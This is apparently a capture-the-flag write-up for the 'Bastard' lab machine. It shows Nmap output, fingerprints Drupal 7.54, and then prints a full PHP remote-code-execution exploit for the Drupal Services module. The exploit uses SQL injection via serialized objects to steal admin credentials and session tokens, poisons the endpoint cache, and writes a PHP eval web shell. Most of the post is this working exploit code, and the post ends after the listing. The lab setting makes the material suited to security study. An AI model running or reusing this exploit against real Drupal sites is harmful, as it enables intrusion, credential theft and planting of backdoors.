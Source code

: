 ```yaml
---
layout: post
title: Bastard
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.9
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.9

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-20 21:59 EST
<br>Nmap scan report for 10.10.10.9
<br>Host is up (0.15s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font>    open  http    Microsoft IIS httpd 7.5
<br>|_http-generator: Drupal 7 (http://drupal.org)
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>| http-robots.txt: 36 disallowed entries (15 shown)
<br>| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
<br>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
<br>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
<br>|_/LICENSE.txt /MAINTAINERS.txt
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
<br><font color="BB69EC">135/tcp</font>   open  msrpc   Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  msrpc   Microsoft Windows RPC
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 <br>cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 <br>cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 <br>R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft <br>Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), <br>Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 <br>SP1, or Windows 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   139.01 ms 10.10.14.1
<br>2   139.18 ms 10.10.10.9

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 86.43 seconds

<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>**Web**:- Drupal Service is running
![Drupal](https://teckk2.github.io/assets/images/Bastard/1-Bastard.JPG)
<br>and by checking /CHANGELOG.txt which we found in the nmap scan of robots.txt, we can see the version installed of drupal is 7.54
![version](https://teckk2.github.io/assets/images/Bastard/2-Bastard.JPG)
<br>For which there is a public exploit available [Drupal-Services-Module-rce](https://www.ambionics.io/blog/drupal-services-module-rce)
<br>Now download the exploit from the blog and edit the $url and $endpoint_path
![edit](https://teckk2.github.io/assets/images/Bastard/3-Bastard.JPG)
**Exploit**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat exploit.php
<br>#!/usr/bin/php
<br><?php
<br># Drupal Services Module Remote Code Execution Exploit
<br># https://www.ambionics.io/blog/drupal-services-module-rce
<br># cf
<br>#
<br># Three stages:
<br># 1. Use the SQL Injection to get the contents of the cache for current endpoint
<br>#    along with admin credentials and hash
<br># 2. Alter the cache to allow us to write a file and do so
<br># 3. Restore the cache
<br># </p>

<p># Initialization</p>

<p>error_reporting(E_ALL);</p>

<p>define('QID', 'anything');
<br>define('TYPE_PHP', 'application/vnd.php.serialized');
<br>define('TYPE_JSON', 'application/json');
<br>define('CONTROLLER', 'user');
<br>define('ACTION', 'login');</p>

<p>$url = 'http://10.10.10.9';
<br>$endpoint_path = '/rest';
<br>$endpoint = 'rest_endpoint';</p>

<p>$file = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;'filename' => 'dixuSOspsOUU.php',
<br>&nbsp;&nbsp;&nbsp;&nbsp;'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
<br>];</p>

<p>$browser = new Browser($url . $endpoint_path);</p>


<p># Stage 1: SQL Injection</p>

</p>class DatabaseCondition
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $conditions = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"#conjunction" => "AND"
<br>&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $arguments = [];
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $changed = false;
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $queryPlaceholderIdentifier = null;
<br>&nbsp;&nbsp;&nbsp;&nbsp;public $stringVersion = null;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;public function __construct($stringVersion=null)
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->stringVersion = $stringVersion;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if(!isset($stringVersion))
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->changed = true;
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->stringVersion = null;
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;}
<br>}</p>

<p>class SelectQueryExtender {
<br>&nbsp;&nbsp;&nbsp;&nbsp;# Contains a DatabaseCondition object instead of a SelectQueryInterface
<br>&nbsp;&nbsp;&nbsp;&nbsp;# so that $query->compile() exists and (string) $query is controlled by us.
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $query = null;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;protected $uniqueIdentifier = QID;
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $connection;
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $placeholder = 0;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;public function __construct($sql)
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;$this->query = new DatabaseCondition($sql);
<br>&nbsp;&nbsp;&nbsp;&nbsp;}
<br>}</p>

<p>$cache_id = "services:$endpoint:resources";
<br>$sql_cache = "SELECT data FROM {cache} WHERE cid='$cache_id'";
<br>$password_hash = '$S$D2NH.6IZNb1vbZEV1F0S9fqIz3A0Y1xueKznB8vWrMsnV/nrTpnd';</p>

<p># Take first user but with a custom password
<br># Store the original password hash in signature_format, and endpoint cache
<br># in signature
<br>$query = 
<br>&nbsp;&nbsp;&nbsp;&nbsp;"0x3a) UNION SELECT ux.uid AS uid, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.name AS name, '$password_hash' AS pass, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.mail AS mail, ux.theme AS theme, ($sql_cache) AS signature, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.pass AS signature_format, ux.created AS created, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.access AS access, ux.login AS login, ux.status AS status, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.timezone AS timezone, ux.language AS language, ux.picture " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"AS picture, ux.init AS init, ux.data AS data FROM {users} ux " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"WHERE ux.uid<>(0"
<br>;</p>

<p>$query = new SelectQueryExtender($query);
<br>$data = ['username' => $query, 'password' => 'ouvreboite'];
<br>$data = serialize($data);</p>

<p>$json = $browser->post(TYPE_PHP, $data);</p>

<p># If this worked, the rest will as well
<br>if(!isset($json->user))
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;print_r($json);
<br>&nbsp;&nbsp;&nbsp;&nbsp;e("Failed to login with fake password");
<br>}</p>

<p># Store session and user data</p>

<p>$session = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;'session_name' => $json->session_name,
<br>&nbsp;&nbsp;&nbsp;&nbsp;'session_id' => $json->sessid,
<br>&nbsp;&nbsp;&nbsp;&nbsp;'token' => $json->token
<br>];
<br>store('session', $session);</p>

<p>$user = $json->user;</p>

<p># Unserialize the cached value
<br># Note: Drupal websites admins, this is your opportunity to fight back :)
<br>$cache = unserialize($user->signature);</p>

<p># Reassign fields
<br>$user->pass = $user->signature_format;
<br>unset($user->signature);
<br>unset($user->signature_format);</p>

<p>store('user', $user);</p>

<p>if($cache === false)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;e("Unable to obtains endpoint's cache value");
<br>}</p>

<p>x("Cache contains " . sizeof($cache) . " entries");</p>

<p># Stage 2: Change endpoint's behaviour to write a shell</p>

<p>class DrupalCacheArray
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;# Cache ID
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $cid = "services:endpoint_name:resources";
<br>&nbsp;&nbsp;&nbsp;&nbsp;# Name of the table to fetch data from.
<br>&nbsp;&nbsp;&nbsp;&nbsp;# Can also be used to SQL inject in DrupalDatabaseCache::getMultiple()
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $bin = 'cache';
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $keysToPersist = [];
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $storage = [];</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;function __construct($storage, $endpoint, $controller, $action) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;$settings = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;'services' => ['resource_api_version' => '1.0']
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->cid = "services:$endpoint:resources";</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# If no endpoint is given, just reset the original values
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if(isset($controller))
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$storage[$controller]['actions'][$action] = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'help' => 'Writes data to a file',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# Callback function
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'callback' => 'file_put_contents',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# This one does not accept "true" as Drupal does,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# so we just go for a tautology
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'access callback' => 'is_string',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'access arguments' => ['a string'],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# Arguments given through POST
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'args' => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0 => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'name' => 'filename',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'type' => 'string',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'description' => 'Path to the file',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'source' => ['data' => 'filename'],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'optional' => false,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1 => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'name' => 'data',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'type' => 'string',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'description' => 'The data to write',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'source' => ['data' => 'data'],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'optional' => false,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'file' => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'type' => 'inc',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'module' => 'services',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'name' => 'resources/user_resource',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'endpoint' => $settings
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$storage[$controller]['endpoint']['actions'] += [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$action => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'enabled' => 1,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'settings' => $settings
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;]
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->storage = $storage;
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->keysToPersist = array_fill_keys(array_keys($storage), true);
<br>&nbsp;&nbsp;&nbsp;&nbsp;}
<br>}</p>

<p>class ThemeRegistry Extends DrupalCacheArray {
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $persistable;
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $completeRegistry;
<br>}</p>

<p>cache_poison($endpoint, $cache);</p>

<p># Write the file
<br>$json = (array) $browser->post(TYPE_JSON, json_encode($file));</p>


<p># Stage 3: Restore endpoint's behaviour</p>

<p>cache_reset($endpoint, $cache);</p>

<p>if(!(isset($json[0]) && $json[0] === strlen($file['data'])))
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;e("Failed to write file.");
<br>}</p>

<p>$file_url = $url . '/' . $file['filename'];
<br>x("File written: $file_url");</p>


<p># HTTP Browser</p>

<p>class Browser
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;private $url;
<br>&nbsp;&nbsp;&nbsp;&nbsp;private $controller = CONTROLLER;
<br>&nbsp;&nbsp;&nbsp;&nbsp;private $action = ACTION;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;function __construct($url)
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->url = $url;
<br>&nbsp;&nbsp;&nbsp;&nbsp;}</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;function post($type, $data)
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$headers = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"Accept: " . TYPE_JSON,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"Content-Type: $type",
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"Content-Length: " . strlen($data)
<br>&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$url = $this->url . '/' . $this->controller . '/' . $this->action;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$s = curl_init(); 
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_URL, $url);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_HTTPHEADER, $headers);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_POST, 1);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_POSTFIELDS, $data);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_RETURNTRANSFER, true);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_SSL_VERIFYHOST, 0);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_SSL_VERIFYPEER, 0);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$output = curl_exec($s);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$error = curl_error($s);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_close($s);</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if($error)
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;e("cURL: $error");
<br>&nbsp;&nbsp;&nbsp;&nbsp;}</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;return json_decode($output);
<br>&nbsp;&nbsp;&nbsp;&nbsp;}
<br>}</p>

<p># Cache</p>

<p>function cache_poison($endpoint, $cache)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;$tr = new ThemeRegistry($cache, $endpoint, CONTROLLER, ACTION);
<br>&nbsp;&nbsp;&nbsp;&nbsp;cache_edit($tr);
<br>}</p>

<p>function cache_reset($endpoint, $cache)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;$tr = new ThemeRegistry($cache, $endpoint, null, null);
<br>&nbsp;&nbsp;&nbsp;&nbsp;cache_edit($tr);
<br>}</p>

<p>function cache_edit($tr)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;global $browser;
<br>&nbsp;&nbsp;&nbsp;&nbsp;$data = serialize([$tr]);
<br>&nbsp;&nbsp;&nbsp;&nbsp;$json = $browser->post(TYPE_PHP, $data);
<br>}</p>

<p># Utils</p>

<p>function x($message)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;print("$message\n");
<br>}</p>

<p>function e($message)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;x($message);
<br>&nbsp;&nbsp;&nbsp;&nbsp;exit(1);
<br>}</p>

<p>function store($name, $data)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;$filename = "$name.json";
<br>&nbsp;&nbsp;&nbsp;&nbsp;file_put_contents($filename, json_encode($data, JSON_PRETTY_PRINT));
<br>&nbsp;&nbsp;&nbsp;&nbsp;x("Stored $name information in $filename");
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

